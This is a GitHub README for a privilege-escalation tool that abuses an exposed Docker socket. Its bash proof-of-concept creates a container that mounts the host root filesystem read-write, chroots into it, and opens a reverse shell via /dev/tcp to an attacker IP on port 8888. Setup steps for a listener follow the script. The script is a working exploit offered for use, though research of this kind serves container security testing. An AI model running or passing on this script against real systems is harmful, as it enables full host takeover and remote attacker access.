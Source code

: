 # docker.sock environment takeover (Privilege Escalation)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/Docker.Socks.png?raw=true)

/var/run/docker.sock could lead to full environment takeover. (Privilege Escalation)

I've written a bash script to automate things written in the article below. 

## Proof of Concept
To run this, you have to already have RCE on a container. Even with RCE, most of the time you will not have access to a docker client and installing a docker client might not be possible.

```bash
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/<Attacker-ipaddr>/8888 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
revShellContainerID=$(echo "$response" | cut -d'"' -f4)
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
````
- Add the attacker ip address to above bash script 
- Start a listener on attacker machine on port 8888. 
- Check the screenshots if you don't understand.

![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc1.png?raw=true)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc2.png?raw=true)


### References
https://dejandayoff.com/the-danger-of-exposing-docker.sock/
https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/

# License
- MIT
